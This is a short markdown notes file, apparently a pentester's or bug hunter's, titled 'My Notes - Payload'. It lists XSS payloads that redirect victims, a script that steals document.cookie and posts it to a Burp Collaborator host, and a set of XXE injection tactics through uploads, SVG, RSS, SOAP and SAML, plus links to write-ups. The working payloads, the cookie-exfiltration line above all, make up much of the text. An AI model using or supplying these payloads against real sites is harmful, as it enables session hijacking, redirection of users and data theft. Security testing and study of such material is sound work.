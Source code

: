 # My Notes - Payload

## XSS to Open Redirection Payload:
1. http://Test"><img src=x onload=window.location="http://google.com">
2. "><img src=x onerror=window.location="http://google.com">

## Exfiltrate cookie:
<script>fetch('https://anmol.burpcollaborator.net?'+document.cookie, {method: 'POST',mode: 'no-cors',body:document.cookie});alert('exfiltrated the document.cookie');</script>

## Multi XSS Exploit in Upload File
1. <a href="https://systemweakness.com/multi-xss-exploit-in-upload-file-2bfde6ce471a">Multi XSS Exploit in Upload File</a>

## Tiny XSS
1. <a href="https://tinyxss.terjanq.me/">Tiny XSS by @terjanq</a>

## Server-Side input validation testing
1. <a href=https://redtm.com/web-pentest/server-side-input-validation>Server-Side input validation testing</a>

## XXE Techniques [Observations]
1. Convert the content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml".
2. File Uploads allows for docx/xlcs/pdf/zip , unzip the package and add your evil xml code into the xml files.
3. If svg allowed in picture upload , you can inject xml in svgs.
4. If the web app offers RSS feeds , add your malicious code into the RSS.
5. Fuzz for /soap api , some applications still running soap apis
6. If the target web app allows for SSO integration, you can inject your malicious xml code in the SAML request/response
7. For more: <a href="https://www.synack.com/blog/a-deep-dive-into-xxe-injection/">A Deep Dive into XXE Injection</a>

## XXE OOB
1. <a href="SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software">SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software</a>
2. <a href="https://hackerone.com/reports/36450">Soap-based XXE vulnerability /soapserver/</a>
